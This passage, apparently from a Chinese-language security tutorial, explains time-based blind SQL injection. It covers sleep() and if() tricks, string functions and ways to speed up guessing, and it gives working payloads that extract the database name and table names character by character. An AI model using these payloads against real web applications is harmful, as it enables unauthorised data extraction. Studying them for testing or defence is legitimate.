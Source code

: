 #### 基于时间的SQL盲注（最后考虑）

对于某些 SQL 注入页面，可能页面中任何信息都不返回，甚至连记录是否存在都不告诉你，这时布尔型盲注也就无效了。但是基于 `sleep()` 、`benchmark()`函数可以实现延时查询，我们可以构造一个判断语法，如果返回结果为真，则延时 5 秒再进行查询操作。那么我们就可以通过观察提交 SQL 注入语句后，页面响应是否有延时卡顿，来判断我们构造的 SQL 语句是否成立。

延时判断，if、sleep。

- if(expr1, expr2,expr3)

  如果expr1是TRUE，则IF0的返回值为expr2;否则返回值则为expr3。if()的返回值为数字值或字符串值。具体情况视其所在语境而定。

  若数据库名为a，则回显123，否则回显456：

  ![image-20220727200138619](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220727200138619.png)

- if + sleep

  若数据库名为a，则延时1s，否则不延时。

  ![image-20220727200249771](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220727200249771.png)

```mysql
// 猜解数据库名长度，猜中了延时5s
id=1 and sleep(if(length(database())=8,5,0))--+

// 逐个猜解数据库名，猜中了延时5s
id=1 and if(ascii(substr(database(),1,1))=115,sleep(5),1)--+

// 逐个猜解表名，猜中了延时5s
id=1 and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101,sleep(3),0)--+
```

```
like 'ro%'						# 判断ro或ro...是否成立
regexp '^xiaodi[a-z]'			# 匹配xiaodi及xiaodi...等if(条件,5,0)
ord()                           # 转换成ascii码
mid (a, b, c)					# 从位置b开始，截取a字符串的c个字符
substr(a, b, c)					# 与mid函数一样，从b位置开始，截取字符串a的c长度
left (database(),1), database() # left(a,b)从左侧截取a的前b位
length(database())=8		    # 判断数据库database()名的长度
ord=ascii ascii(x)=97 			# 判断x的ascii码是否等于97
```

**盲注的加速方法**：

减少查询次数，提高查找的正确率。

- **二分法**爆破字符；

- **位运算法**

  每次查询确定一位，这样一个字符只需要8次就可以确定了，利用位运算符&实现取某一位的值。

### 按照注入的数据类型

#### 数字型
